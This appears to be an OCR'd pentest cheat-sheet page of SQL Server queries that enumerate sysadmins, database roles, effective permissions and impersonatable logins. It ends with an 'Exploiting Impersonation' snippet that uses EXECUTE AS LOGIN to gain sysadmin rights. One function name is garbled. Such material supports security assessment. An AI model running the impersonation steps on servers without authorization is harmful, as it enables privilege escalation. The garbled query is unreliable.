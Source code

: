 ### List All Sysadmins

```sql
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1
```

### List All Database Roles

```sql
SELECT DB1.name AS DatabaseRoleName,
isnull (DB2.name, 'No members') AS DatabaseUserName
FROM sys.database_role_members AS DRM
RIGHT OUTER JOIN sys.database_principals AS DB1
ON DRM.role_principal_id = DB1.principal_id
LEFT OUTER JOIN sys.database_principals AS DB2
ON DRM.member_principal_id = DB2.principal_id
WHERE DB1.type = 'R'
ORDER BY DB1.name;
```

### Effective Permissions from the Server

```sql
select * from fn_my_permissions(null, 'server');
```

### Effective Permissions from the Database

```sql
SELECT * FROM fn_dp1my_permissions(NULL, 'DATABASE');
```

### Find SQL Server Logins Which can be Impersonated for the Current Database

```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```
